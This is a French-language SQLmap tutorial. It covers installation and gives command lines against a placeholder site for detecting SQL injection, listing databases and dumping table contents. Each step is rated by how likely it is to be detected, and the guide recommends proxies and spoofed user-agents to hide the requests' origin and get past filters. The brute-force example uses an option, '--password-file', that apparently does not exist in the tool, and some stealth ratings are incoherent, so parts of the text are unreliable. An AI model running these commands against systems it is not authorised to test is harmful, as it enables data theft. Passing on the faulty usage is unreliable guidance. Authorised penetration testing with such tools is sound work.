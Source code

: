 #### Introduction

SQLmap est un outil open-source pour l'exploration et l'exploitation des vulnérabilités d'injection SQL. Il peut automatiser le processus d'injection SQL, ce qui en fait un outil précieux pour les pentesters et les chercheurs en sécurité.

#### Installation de SQLmap

SQLmap est généralement disponible via les dépôts de nombreuses distributions Linux ou peut être installé directement depuis le dépôt officiel.

**Installation sur Debian/Ubuntu**

1.  **Installer via `apt`** (version souvent non à jour) :

    ```bash
    sudo apt update
    sudo apt install sqlmap
    ```
2.  **Installer la dernière version depuis GitHub** :

    ```bash
    sudo apt update
    sudo apt install git
    git clone https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
    ```

    Ensuite, vous pouvez exécuter SQLmap directement à partir du répertoire `sqlmap-dev` :

    ```bash
    cd sqlmap-dev
    python sqlmap.py
    ```

**Installation sur Windows**

1. **Télécharger SQLmap** depuis le [dépôt GitHub](https://github.com/sqlmapproject/sqlmap).
2. **Décompresser l'archive**.
3.  **Exécuter SQLmap** via le terminal ou l'invite de commandes :

    ```cmd
    python sqlmap.py
    ```

#### Commandes et Options de Base

**Commande de Base pour Détecter les Vulnérabilités**

1.  **Tester une URL pour les injections SQL**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1"
    ```

    * **Explication** : `-u` spécifie l'URL de la page contenant le paramètre à tester pour les injections SQL.
    * **Discrétion** : Moyenne. Ce test peut générer du trafic réseau visible et déclencher des alertes sur les systèmes de détection d'intrusion (IDS).

**Commandes Avancées**

1.  **Spécifier un Paramètre de Cookie**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --cookie="SESSIONID=abcd1234"
    ```

    * **Explication** : `--cookie` permet de spécifier les cookies pour les sessions authentifiées ou pour tester les vulnérabilités dans un contexte de session.
    * **Discrétion** : Moyenne à élevée. Les cookies peuvent contenir des informations sensibles.
2.  **Utiliser des Données POST pour Tester les Injections**

    ```bash
    sqlmap -u "http://example.com/page.php" --data="username=admin&password=1234"
    ```

    * **Explication** : `--data` spécifie les données POST à envoyer pour tester les vulnérabilités dans les formulaires soumis.
    * **Discrétion** : Moyenne. Le test de formulaires POST peut révéler des failles dans les processus d'authentification.
3.  **Détecter et Exploiter une Vulnérabilité**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --dbs
    ```

    * **Explication** : `--dbs` demande à SQLmap de lister les bases de données disponibles une fois qu'une vulnérabilité est détectée.
    * **Discrétion** : Faible à moyenne. L'extraction de la liste des bases de données peut attirer l'attention.
4.  **Extraire des Tables et des Données**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --dbs --tables -D <database_name> -T <table_name> --dump
    ```

    * **Explication** : `--tables` liste les tables dans la base de données spécifiée, et `--dump` extrait les données de la table spécifiée.
    * **Discrétion** : Faible à élevée. L'extraction des données peut être détectée par des systèmes de journalisation et de détection.
5.  **Utiliser une Liste de Proxy**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --proxy="http://127.0.0.1:8080"
    ```

    * **Explication** : `--proxy` permet d'utiliser un proxy pour masquer l'origine des requêtes.
    * **Discrétion** : Haute. L'utilisation d'un proxy aide à masquer l'origine des tests.
6.  **Définir une Utilisation d'Agents Utilisateurs**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3"
    ```

    * **Explication** : `--user-agent` permet de spécifier un agent utilisateur pour tromper les mécanismes de filtrage basés sur l'agent utilisateur.
    * **Discrétion** : Haute. L'utilisation d'un agent utilisateur personnalisé peut contourner certaines protections.
7.  **Sauvegarder les Résultats dans un Fichier**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --output-dir="/path/to/results"
    ```

    * **Explication** : `--output-dir` spécifie le répertoire où enregistrer les résultats de l'analyse.
    * **Discrétion** : Haute. Sauvegarder les résultats permet une analyse plus approfondie hors ligne.

#### Options de Sécurité Avancées

1.  **Spécifier des Filtres pour les Requêtes**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --data="username=admin&password=1234" --exclude-sysdbs --technique=BEUSTQ
    ```

    * **Explication** : `--exclude-sysdbs` exclut les bases de données système des résultats, et `--technique` spécifie les techniques d'injection à tester.
    * **Discrétion** : Haute. Ajuster les techniques et les filtres permet de se concentrer sur des tests spécifiques.
2.  **Utiliser une Liste de Mots de Passe pour les Attaques de Brute Force**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --passwords --password-file="/path/to/passwords.txt"
    ```

    * **Explication** : `--password-file` permet d'utiliser une liste de mots de passe pour les tentatives de connexion par brute force.
    * **Discrétion** : Faible à moyenne. Les attaques par brute force peuvent générer un grand nombre de tentatives de connexion.

#### Exemples de Scénarios

1.  **Détection Simple d’Injection SQL**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1"
    ```

    * **Explication** : Teste la vulnérabilité d'injection SQL pour le paramètre `id` dans l'URL.
    * **Discrétion** : Moyenne. Ce test est généralement discret, mais peut être détecté par des IDS si les requêtes sont trop fréquentes.
2.  **Exploitation Avancée avec Extraction de Données**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --dbs --tables -D <database_name> -T <table_name> --dump
    ```

    * **Explication** : Liste les bases de données, les tables et extrait les données de la table spécifiée après avoir détecté une vulnérabilité.
    * **Discrétion** : Faible à élevée. L'extraction de données est plus intrusive et peut attirer l'attention.
3.  **Utilisation de Proxy pour Masquer l’Origine**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --proxy="http://127.0.0.1:8080"
    ```

    * **Explication** : Utilise un proxy pour acheminer les requêtes et masquer l'adresse IP d'origine.
    * **Discrétion** : Haute. Le proxy aide à cacher l'origine des tests et minimise le risque d'être détecté.
4.  **Test de Vulnérabilités avec Authentification**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --cookie="SESSIONID=abcd1234"
    ```

    * **Explication** : Inclut des cookies pour tester les vulnérabilités dans un contexte de session authentifiée.
    * **Discrétion** : Moyenne à élevée. Les tests authentifiés peuvent être plus ciblés mais nécessitent des données de session valides.

#### Discrétion et Bonnes Pratiques

1. **Obtenir des Autorisations**
   * **Assurez-vous toujours** d'avoir l'autorisation explicite pour tester les applications web.
   * **Évitez les tests non autorisés** pour éviter des implications légales et éthiques.
2. **Utiliser les Fonctionnalités de Limitation**
   * **Configurer des délais** entre les requêtes pour éviter de surcharger les serveurs et attirer l'attention.
   * **Limiter les tests** en termes de portée et de profondeur pour minimiser les impacts sur les systèmes cibles.
3. **Analyser les Réactions du Serveur**
   * **Observer les réponses des serveurs** pour ajuster les tests et éviter les dénis de service ou les perturbations.

